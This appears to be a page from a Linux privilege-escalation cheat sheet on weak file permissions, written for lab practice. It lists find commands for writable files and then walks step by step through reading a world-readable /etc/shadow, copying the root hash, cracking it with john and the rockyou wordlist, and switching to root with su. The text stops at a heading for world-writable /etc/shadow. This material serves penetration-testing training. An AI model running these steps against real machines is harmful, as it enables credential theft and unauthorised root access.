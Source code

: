 ## <mark style="color:red;">Weak File Permissions</mark>

Find all writable files in /etc:

```
find /etc -maxdepth 1 -writable -type f
```

Find all readable files in /etc:

```
find /etc -maxdepth 1 -readable -type f
```

Find all directories which can be written to:

```
find / -executable -writable -type d 2> /dev/null
```

### <mark style="color:blue;">World Readable /etc/shadow</mark>

1. Check the permissions of the /etc/shadow file and note that it is world readable:

```
ls -l /etc/shadow
    -rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```

2. Extract the root user’s password hash:

<pre><code>head -n 1 /etc/shadow
    root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXv
<strong>    RDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
</strong></code></pre>

3. Save the password hash in a file (e.g. hash.txt):

```
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
```

4. Crack the password hash using john:

```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```
su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### <mark style="color:blue;">World Writable /etc/shadow</mark>
